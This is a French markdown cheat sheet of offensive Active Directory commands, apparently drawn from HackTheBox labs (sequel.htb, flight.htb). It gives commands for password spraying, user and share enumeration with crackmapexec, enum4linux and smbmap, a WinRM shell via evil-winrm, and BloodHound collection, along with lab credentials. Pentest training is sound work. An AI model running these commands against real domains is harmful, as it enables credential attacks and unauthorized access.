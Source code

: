 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Récupération d'informations Active Directory et partages



## Politique de mot de passe
```shell
cme smb $TARGET_IP -u "sql_svc" -p "REGGIE1234ronnie" -d "sequel"  --pass-pol | cut -c60-
```

## Comptes utlisateurs
### LDAP
```
$ crackmapexec ldap -u $AD_USER -p $AD_PASSWORD $TARGET_IP -dc-ip $TARGET_IP --users
```

```
# Creation d'une liste d'utilisateurs
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt

# Password spraying with new grabbed users
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success

```

### Comptes utilisateurs

#### Password Spraying
```
# Collect users
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt

# Password spraying with new grabbed users
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success

```

#### Partages
##### Enumération

```shell
cme smb $TARGET_IP -u "sql_svc" -p "REGGIE1234ronnie" -d "sequel"  --shares | cut -c60-
```

```shell
# 
cme smb $TARGET_IP  -u 'guest' -p '' --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
      [+] sequel.htb\guest: 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON                        Logon server share 
      Public          READ            
      SYSVOL                          Logon server share 
# Authentification NULL
enum4linux -a -u "" -p "" $TARGET_IP

# Authentification avec le compte Guest (si non désactivé)
enum4linux -a -u "guest" -p "" $TARGET_IP

# liste des partage avec type d'accès (lecture / écrite / rien)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP
```

```

### Accès à un partage 

#### smbclient.py
```shell
smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"    

smbclient.py guest@sequel.htb
Password:       <==== Appuyer sur Entrer
# shares        <==== liste les partages
# use <share name>  <=== se connecte à ce partage
# ls / cd  / cat [...]
```

#### smbmap
```shell
# Liste de façon récursive les fichiers d'un partage (indique si les droits sont en écriture ou en lecture)
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP -R "$SHARE/"

# Upload d'un fichier 
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
```

## Shell
```shell
# Vérification d'accès WINRM
cme winrm $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN"  | cut -c60-
2     [*] http://10.10.11.202:5985/wsman
2     [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)

# Obtention du shell via evil-winrm
evil-winrm -i $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD"
```

## Bloodhound
```
# Bloodhound python injector available as a docker image (python2)
sudo docker run --rm -v ${PWD}:/bloodhound-data -it bloodhound 
$ bloodhound-python  -u 'svc_apache' -p 'S@Ss!K@*t13' -c All -d 'flight.htb' -v -ns 10.10.11.187
```


